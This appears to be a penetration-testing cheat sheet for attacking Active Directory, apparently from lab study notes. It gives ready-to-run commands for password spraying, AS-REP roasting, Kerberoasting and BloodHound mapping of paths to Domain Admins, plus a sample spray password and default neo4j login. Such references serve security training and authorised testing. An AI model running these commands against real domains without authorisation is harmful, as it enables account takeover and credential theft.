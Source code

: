 
### Password Spraying
#### Check Policy
```
crackmapexec <ip> -u <user> -p <password> --pass-pol
enum4linux -u <user> -p <pass> -P <ip>
net accounts
```
#### Spray
```
#Windows
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"

#Linux
crackmapexec smb <target_ips> -u <user_list> -p <pass_list> -d <domain> --continue-on-success
crackmapexec winrm <target_ips> -u <user_list> -p <pass_list> -d <domain> --continue-on-success
crackmapexec rdp <target_ips> -u <user_list> -p <pass_list> -d <domain> --continue-on-success

#DON'T FORGET TO USE --local-auth to try local password spray.
```
#### AS-REP Roasting
```
#Gets all users.
impacket-GetADUsers -all -dc-ip <dc_ip> <domain>/<username>

#Roasting
.\Rubeus.exe asreproast /nowrap
impacket-GetNPUsers.py <domain>/ -usersfile <usernames.txt> - format hashcat -outputfile <hashes.txt>
```
#### Kerberoasting
```
#Roasting
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
impacket-GetUserSPNs --request -dc-ip <ip> <domain>/<user>:<password>
```

### BloodHound
#### Data collection
```
powershell -ep bypass
Import-Module .\sharphound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\<user>\Desktop\ -OutputPrefix "audit results"
```
#### Data Analysis

```
sudo neo4j start
sudo bloodhound
http://localhost:7474 (neo4j:kali)
```
- Import zipped data.
- Check Shortest Paths Analysis.
- Right click objects that are owned. For example users and client machines.
- Then choose "Shortest Path to Domain Admins from owned Principals".